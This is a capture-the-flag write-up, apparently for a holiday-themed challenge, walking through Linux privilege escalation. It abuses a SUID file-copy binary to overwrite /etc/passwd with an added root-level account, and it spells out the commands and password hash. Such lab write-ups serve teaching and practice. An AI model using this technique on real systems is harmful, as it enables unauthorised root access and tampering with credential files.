

# Preface


# Linux PrivESC:
When I first started the challenge, I was greeted with:

```txt
In a digital winter wonderland we play,
Where elves and bytes in harmony lay.
This festive terminal is clear and bright,
Escalate privileges, and bring forth the light.

Start in the land of bash, where you reside,
But to win this game, to root you must glide.
Climb the ladder, permissions to seize,
Unravel the mystery, with elegance and ease.

There lies a gift, in the root's domain,
An executable file to run, the prize you'll obtain.
The game is won, the challenge complete,
Merry Christmas to all, and to all, a root feat!

* Find a method to escalate privileges inside this terminal and then run the binary in /root *
```

Using the article provided by the hint *Linux Privilege Escalation Guide (Updated for 2023)* by Rashid-Ferose published by Payatu, I tried the strategies provided by the article. When I came across this:



It seemed interesting. In order to see if the Linux system I was working on had anything that could be used for a privilege escalation attack that also had a SUID bit set, I used this command:

```txt
find / -perm -u=s -type f 2>/dev/null
```

After I executed the command, the result was:


The simplecopy command seemed interesting. Since it had a sudo attribute set, I could theoretically use it to perform a linux privelege escalation attack by overwrititng the password file to give me root access. But first I needed to check if simplecopy had was an actual file copier, so I ran:

```txt
simplecopy
```

After I executed the command, the result was:

`Usage: simplecopy <source> <destination>`

So simplecopy is basically the `cp` command but with a SUID bit set. Now I only need to check if simplecopy has root read and write permissons. In order to do this, I typed:

```txt
ls -la /usr/bin/simplecopy
```

After I executed the command, the result was:


Simplecopy has root read and write permissions. I then read the article *Linux Privilege Esclation using the SUID bit* by Rangeforce, where I found this interesting bit:


Simplecopy can read and write. This could be the solution. I then continued to read:


I then followed the instructions, and typed:

```txt
mkdir source
cp /etc/passwd source/passwd
echo 'root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash' >> source/passwd
ln -s /etc destination
simplecopy source/passwd destination
su root2
```
When asked for the password for the `su` user root2, I typed `mrcake` (WVLY0mgH0RtUI is mrcake encrypted as mentioned by the article that root2's password is mrcake). I then gained root access. Since I had to run the binary that was in the `/root` folder, I typed:

```txt
cd ..
cd ..
cd root
ls
```

The output of the `ls` command showed me that binary in `/root` was named `runmetoanswer`. To run the binary, I typed:

```txt
./runmetoanswer
```

Which resulted in this prompt:

```txt
Who delivers Christmas presents?

>
```
I first typed `Santa` as my answer, which was incorrect. So I reran the binary and entered `santa` as my answer, and the result was:


Done.


